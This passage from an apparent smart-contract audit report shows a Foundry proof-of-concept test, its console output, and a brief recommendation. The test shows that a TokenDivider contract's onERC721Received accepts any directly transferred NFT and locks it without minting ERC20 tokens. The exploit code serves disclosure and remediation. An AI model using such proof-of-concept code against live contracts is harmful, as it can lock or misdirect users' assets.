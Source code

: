 ```JavaScript
        legitimateNft = new ERC721Mock();
        legitimateNft.mint(ATTACKER);
    }

    function test_UnauthorizedNFTTransfer() public {
        console.log("\n=== Testing Unauthorized NFT Transfer Vulnerability ===");
        console.log("Contract's onERC721Received function accepts any NFT without validation");

        vm.startPrank(ATTACKER);

        console.log("\nAttempting to transfer NFT without using divideNft function...");
        console.log("Initial NFT owner:", legitimateNft.ownerOf(TOKEN_ID));
        console.log("Target contract:", address(divider));

        // Direct transfer bypassing divideNft
        legitimateNft.safeTransferFrom(ATTACKER, address(divider), TOKEN_ID, "");

        console.log("\nVULNERABILITY: NFT transfer succeeded without proper initialization!");
        console.log("New NFT owner:", legitimateNft.ownerOf(TOKEN_ID));
        console.log("No ERC20 tokens were minted");
        console.log("NFT is now locked in contract without corresponding ERC20 tokens");

        vm.stopPrank();
    }
}
```

- Run `forge test --mc TokenDividerReceiveTest -vvv`

Output:

```javascript
=== Testing Unauthorized NFT Transfer Vulnerability ===
Contract's onERC721Received function accepts any NFT without validation

Attempting to transfer NFT without using divideNft function...
Initial NFT owner: 0x0000000000000000000000000000000000000002
Target contract: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f

VULNERABILITY: NFT transfer succeeded without proper initialization!
New NFT owner: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
No ERC20 tokens were minted
NFT is now locked in contract without corresponding ERC20 tokens
```

## Tools Used

- Foundry

## Recommendations

1\. Add transfer validation in onERC721Received
